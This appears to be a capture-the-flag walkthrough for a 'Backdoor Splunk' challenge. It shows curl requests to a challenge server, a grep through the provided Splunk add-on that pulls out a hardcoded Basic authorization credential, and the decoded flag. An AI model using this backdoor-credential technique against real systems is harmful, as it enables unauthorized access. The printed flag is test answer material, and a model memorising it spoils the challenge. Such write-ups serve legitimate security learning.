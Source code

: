 # Backdoor Splunk

## Description
```
You've probably seen Splunk being used for good, but have you seen it used for evil?

Provided File: Splunk_TA_Windows.zip
```

## Writeup

Starting with this challenge we have to start a machine which can be accessing via web. So I used curl:
```sh
kali@kali curl -v http://chal.ctf.games:31069/
> GET / HTTP/1.1
> Host: chal.ctf.games:31069
> User-Agent: curl/7.82.0
> Accept: */*

* Mark bundle as not supporting multiuse
< HTTP/1.1 401 UNAUTHORIZED
< Content-Type: application/json
< Content-Length: 52

{"error":"Missing or invalid Authorization header"}
```

Knowing that there are different types of Request Headers I tried some and got the correct Syntax:
```sh
kali@kali curl -v http://chal.ctf.games:31069/ -H "Authorization: Basic QWxhZGRpbjpvcGVuIHNlc2FtZQ=="
> GET / HTTP/1.1
> Host: chal.ctf.games:31069
> User-Agent: curl/7.82.0
> Accept: */*
> Authorization: Basic QWxhZGRpbjpvcGVuIHNlc2FtZQ==

< HTTP/1.1 403 FORBIDDEN
< Content-Type: application/json
< Content-Length: 32

{"error":"Invalid credentials"}
```

So basically we have to pass along `Authorization: Basic [Base64-Encoded-Credentials]`. <br/>
The syntax for the base64-encoded-credentials is the following: `username:password`.
So knowing that we have to find an Auth token I used the following command:
```sh
find ./ -type f -exec grep -l "Auth" {} \; | xargs cat | grep Authorization

{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")}
```

This gives us some stuff in which we find the base64 encoded credentials we need. <br/>
So adding this to our request we are able to send a working curl:
```sh
kali@kali curl -v http://chal.ctf.games:31069/ -H "Authorization: Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg=="
> GET / HTTP/1.1
> Host: chal.ctf.games:31158
> User-Agent: curl/7.82.0
> Accept: */*
> Authorization: Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==

< HTTP/1.1 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 69
< 

<!-- ZWNobyBmbGFnezYwYmIzYmZhZjcwM2UwZmEzNjczMGFiNzBlMTE1YmQ3fQ== -->
```

Decoding thisobvious Base64 encoded string we are able to get the flag: `flag{60bb3bfaf703e0fa36730ab70e115bd7}`.
